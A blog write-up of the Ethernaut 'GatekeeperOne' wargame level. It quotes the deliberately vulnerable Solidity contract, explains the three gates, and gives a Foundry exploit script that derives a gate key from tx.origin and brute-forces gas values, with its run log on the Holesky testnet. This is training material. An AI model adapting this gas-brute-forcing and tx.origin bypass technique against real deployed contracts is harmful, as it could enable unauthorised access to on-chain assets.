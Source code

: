 ```yaml
---
layout: post
title: "[Ethernaut] GateKeeper One"
tags: blockchain ethernaut foundry
---
```


# Analysis

---

The goal is

1. Make it past the gatekeeper and register as an entrant to pass this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

[Solidity 0.8.30 Documentation - units and global variables](https://docs.soliditylang.org/en/latest/units-and-global-variables.html)

> 💡 `gasleft() returns (uint256)`: remaining gas

[Solidity 0.8.30 Documentation - external function calls](https://docs.soliditylang.org/en/latest/control-structures.html#external-function-calls)

> 💡 When calling functions of other contracts, you can specify the amount of Wei or gas sent with the call with the special options `{value: 10, gas: 10000}`. Note that it is discouraged to specify gas values explicitly, since the gas costs of opcodes can change in the future.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/GateKeeperOne.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    function ex(GatekeeperOne gko_) external returns (uint){
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;

        for(uint i=0; i<=350; i++) {
            (bool result,) = address(gko_).call{gas: i+(8191*3)}(abi.encodeWithSignature("enter(bytes8)", gateKey));
            if(result) {
                return i;
            }
        }
    }
}

contract GateKeeperOneSol is Script {
    GatekeeperOne public gko_ = GatekeeperOne(0x8905857EFf6E619C391C6a828B62F86f2D15CCf8);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
    
        console.log("Before entrant: ", gko_.entrant());
        Ex ex = new Ex();
        console.log("gas: ", ex.ex(gko_));
        console.log("After entrant: ", gko_.entrant());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/GateKeeperOneSol.sol --tc GateKeeperOneSol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Before entrant:  0x0000000000000000000000000000000000000000
  gas:  256
  After entrant:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001016731 gwei

Estimated total gas used for script: 987058

Estimated amount required: 0.000001003572467398 ETH

==========================

##### holesky
✅  [Success] Hash: 0x4a586d22227da1b4e2ea917dace32511f929924c727de6b803583281190d3fc7
Block: 3700680
Paid: 0.000000434849804628 ETH (427697 gas * 0.001016724 gwei)

##### holesky
✅  [Success] Hash: 0xfb2ec0646fe566660746a9b0d4bee577abc05e255f4e08aec3dfd7368faaf944
Contract Address: 0xBD597a280DC80c5f4D76A6Ccf23FAA6b00f721e3
Block: 3700680
Paid: 0.000000282768228708 ETH (278117 gas * 0.001016724 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000717618033336 ETH (705814 gas * avg 0.001016724 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-22-GateKeeper-One/complete.png)